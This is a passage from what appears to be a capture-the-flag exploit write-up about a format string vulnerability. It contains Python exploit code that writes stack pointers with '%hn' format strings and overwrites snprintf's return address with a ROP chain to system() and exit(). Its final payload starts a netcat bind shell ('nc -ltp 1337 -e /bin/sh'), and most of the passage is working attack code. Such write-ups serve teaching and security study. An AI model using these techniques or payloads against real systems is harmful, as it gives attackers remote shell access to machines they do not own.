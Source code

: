 ```
def generate_formatstring(value, align):
        time.sleep(0.5)

        bw = 0x00
        byte = (((value & 0xFFFF) - bw) & 0xFFFF)
        bw += byte
        alignaddr = ((alignedstack - bw + align) & 0xFFFF)

        payload  = "%"+str(byte)+"x%263$hn" # set half byte on previously set address
        payload += "%"+str(alignaddr)+"x%256$hn" # set addr to next half byte
        payload += "\n\x00"

        return payload
```
By looping the *align* variable each cycle will generate two format strings that write on the stack and then loops the pointer to the next two bytes.
```
for i in range(1,7):
        s.send(generate_formatstring(stackrop + (i-1)*2, i*4-2))
        s.recv(BUFFER_SIZE)
        s.send(generate_formatstring(stackrop >> 0x10, i*4))
        s.recv(BUFFER_SIZE)
        print "[+] %d. value set" % i
```

After the loop our stack will look like this:
> [1:heap]...[4:stackleak]...[6:level14leak]...[256:pointer-to-263]...[263:pointer-to-280 +2]...[275:retaddr][276:retaddr+2][277:retaddr+4][278:retaddr+6][279:retaddr+8][280:retaddr+10] ---> direction to the bottom


## Final steps

We have 6 different addresses on stack, crafted by ourselves. All of these are fully addressable by our format string vulnerability by **%275$x** to **%280$x**. In the Info leak section we managed to get a reliable address that points to the ret address of the *snprintf()* function; if we change that address the function will return to a different location. If we change more dwords on that memory location, we can create a ROP chain with our gadgets. Our chain will look like this:
> [system()][exit()][payload-from-heap]

We already have all the necessary addresses leaked in the Info leak section, we only have to write these to our crafted pointers.
```
payloadx  = "/bin/nc.traditional -ltp 1337 -e/bin/sh;" # eat this system()!
payloadx += "%"+str(bytelo1)+"x%275$hn%"+str(bytehi1)+"x%276$hn" # ret to system
payloadx += "%"+str(bytelo2)+"x%277$hn%"+str(bytehi2)+"x%278$hn" # exit() pointer
payloadx += "%"+str(bytelo3)+"x%279$hn%"+str(bytehi3)+"x%280$hn" # heap addr that points to this payload
payloadx += "\n\x00"
```
- *byte[lo|hi]1* stores *system()*'s address from libc
- *byte[lo|hi]2* stores *exit()*'s address from libpthread
- *byte[lo|hi]3* stores the pointer to the payload prefixed the format string

By overwriting the ret address and the following two dwords we have our ROP chain placed on stack. The function returns to *system()* with our payload and executes the command.

Twitter: [@xoreipeip](https://twitter.com/xoreipeip)



